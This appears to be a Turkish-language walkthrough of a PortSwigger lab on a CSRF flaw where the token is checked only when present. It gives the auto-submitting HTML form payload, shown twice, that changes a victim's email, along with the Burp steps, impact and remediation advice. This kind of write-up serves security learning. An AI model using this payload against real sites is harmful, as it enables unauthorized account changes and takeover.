







# CSRF where token validation depends on token being present

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda email değiştirme fonksiyonu CSRF token içeriyor, ancak token doğrulaması yalnızca `csrf` parametresi istekte mevcutsa yapılıyor. Parametre tamamen kaldırıldığında uygulama token kontrolünü atlıyor ve email değiştirme isteğini kabul ediyor. Bu nedenle exploit server üzerinde `csrf` alanı bulunmayan otomatik gönderilen bir POST formu hazırlayarak kurban kullanıcının email adresini değiştirdim.

## 3. Kullanılan Payload

```html
<form action="https://0aef00640404788b82faba6200b30093.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="victimnewemail77@gmail.com">
</form>

<script>
  document.forms[0].submit();
</script>
```

## 4. Exploitation Steps

1. Verilen kullanıcı bilgileriyle uygulamaya giriş yaptım ve `/my-account` sayfasında email değiştirme formunu tespit ettim.



2. Email değiştirme isteğini Burp Suite ile yakaladım. Normal istekte `email` parametresinin yanında `csrf` token bulunduğunu ve isteğin `POST /my-account/change-email` endpoint'ine gönderildiğini gördüm.



3. İsteği test etmek için body kısmındaki `csrf` parametresini tamamen kaldırdım ve yalnızca `email` parametresini bıraktım.

```http
email=asdasd%40gmail.com
```



4. İsteği gönderip yönlendirmeyi takip ettiğimde uygulamanın isteği kabul ettiğini gördüm. Bu davranış, token doğrulamasının token parametresi mevcut olmadığı durumda uygulanmadığını gösterdi.



5. Hesap sayfasını tekrar kontrol ettiğimde email adresinin değiştiğini doğruladım.



6. Exploit server üzerinde `csrf` alanı içermeyen, otomatik gönderilen bir POST formu hazırladım. Form yalnızca hedef email adresini taşıyordu.

```html
<form action="https://0aef00640404788b82faba6200b30093.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="victimnewemail77@gmail.com">
</form>

<script>
  document.forms[0].submit();
</script>
```



7. Exploit'i kurbana gönderdim. Kurbanın tarayıcısı kendi oturum cookie'siyle POST isteğini gönderdi ve uygulama `csrf` parametresi olmadığı için token doğrulaması yapmadan email adresini değiştirdi. Böylece lab başarıyla çözüldü.



## 5. Impact

CSRF token kontrolünün yalnızca token parametresi mevcutken yapılması, korumayı kolayca bypass edilebilir hale getirir. Saldırgan, token alanını isteğe hiç eklemeden kurbanın oturumu üzerinden email değiştirme gibi state-changing işlemleri tetikleyebilir. Bu durum hesap ayarlarının izinsiz değiştirilmesine ve bazı senaryolarda hesap ele geçirmeye yol açabilir.

## 6. Remediation

CSRF token, tüm state-changing isteklerde zorunlu olmalıdır. Token parametresi eksik, boş, hatalı veya oturumla eşleşmiyorsa istek reddedilmelidir. Sunucu tarafında doğrulama mantığı "token varsa kontrol et" şeklinde değil, "geçerli token yoksa reddet" şeklinde uygulanmalıdır. Ayrıca kritik işlemler için `SameSite` cookie ayarları, `Origin` kontrolü ve gerekirse yeniden kimlik doğrulama gibi ek savunmalar kullanılmalıdır.
